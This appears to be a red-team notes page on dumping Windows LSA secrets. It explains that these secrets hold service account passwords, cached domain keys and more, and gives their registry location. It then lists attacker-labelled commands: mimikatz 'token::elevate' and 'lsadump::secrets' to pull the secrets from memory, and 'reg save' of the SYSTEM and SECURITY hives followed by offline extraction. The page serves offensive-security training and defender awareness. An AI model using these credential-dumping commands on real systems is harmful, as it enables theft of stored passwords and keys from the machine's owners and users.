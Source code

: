 # Dumping LSA Secrets

> #### **What is stored in LSA secrets?**
>
> Originally, the secrets contained cached domain records. Later, Windows developers expanded the application area for the storage. At this moment, they can store PC users' text passwords, service account passwords \(for example, those that must be run by a certain user to perform certain tasks\), Internet Explorer passwords, RAS connection passwords, SQL and CISCO passwords, SYSTEM account passwords, private user data like EFS encryption keys, and a lot more. For example, the _NL$KM_ secret contains the cached domain password encryption key.

## Storage

LSA Secrets are stored in registry:

```text
HKEY_LOCAL_MACHINE\SECURITY\Policy\Secrets
```

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-20-39.png)

## Execution

### Memory

Secrets can be dumped from memory like so:

{% code-tabs %}
{% code-tabs-item title="attacker@mimikatz" %}
```text
token::elevate
lsadump::secrets
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-25-01.png)

### Registry

LSA secrets can be dumped from registry hives likes so:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg save HKLM\SYSTEM system & reg save HKLM\security security
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-37-11.png)

{% code-tabs %}
{% code-tabs-item title="attacker@mimikatz" %}
```csharp
lsadump::secrets /system:c:\temp\system /security:c:\temp\security
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-03-12-20-38-02.png)

## References

{% embed url="https://www.passcape.com/index.php?section=docsys&cmd=details&id=23" %}



